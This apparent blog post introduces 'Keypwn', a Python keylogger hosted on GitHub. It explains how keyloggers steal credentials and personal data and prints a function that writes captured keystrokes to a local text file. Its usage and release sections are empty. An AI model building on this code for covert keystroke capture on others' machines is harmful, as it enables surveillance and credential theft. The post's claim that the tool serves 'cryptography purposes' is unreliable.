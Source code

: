 ```yaml
---
layout: post
author: Luis De León
tags: [Python]
---
```

Github resource [here](https://www.github.com/Its-Yayo/Keypwn). 

## Table of Contents:
1. [Basics](#basics)
2. [Understanding the basics](#understanding-the-basics)
3. [Usages](#usages)
4. [Releases](#releases)

---

## Basics

Keypwn is a single keylogger tool written in Python for cryptography purposes. A keylogger is a surveillance technology to capture and record any keystroke the user's typing on an specific computer. 

Keyloggers are commonly used by crackers as spywares to capture sensitive data, Personal identifiable Information (PII), login credentials, etc. A distracted person would potentially be vulnerable once a keylogger is being deployed in his computer. 

What Keypwn is actually doing is deploying a mounted server once you deploy or run the app. The code will integrately record any kestroke you type until you quit the program. It will create by itself a .txt document with all the keystrokes you typed in and it'll be stored in the local project's folder. 

This tool is for cryptography purposes. It might not be risky for potencially attacks unless it'd be optimized to be stored in a simple Rubber Ducky drive. You must NOT practice these habits by any chance.

## Understanding the basics 

We have 2 functions aside. 

```python
def get_current_date_time() -> str:
    return datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
```

This function will be our first instance for the document by adding the exact current time the app has been deployed. The function ```time.strftime()``` will convert a tuple or struct_time representing a time as returned by gmtime() or localtime() to a string as specified by the format argument. 

```python
def write_to_log_file(key) -> None:
    global log_file
    keys = str(key)

    if keys == "'\\x03'":
        log_file.close()
        sys.exit()

    if keys == 'Key.enter':
        return log_file.write('\n')
    elif keys == 'Key.space':
        return log_file.write(' ')
    elif keys == 'Key.backspace':
        return log_file.write('%BORRAR%')
    else:
        return log_file.write(keys.replace("'", ""))
```

## Usages



## Releases
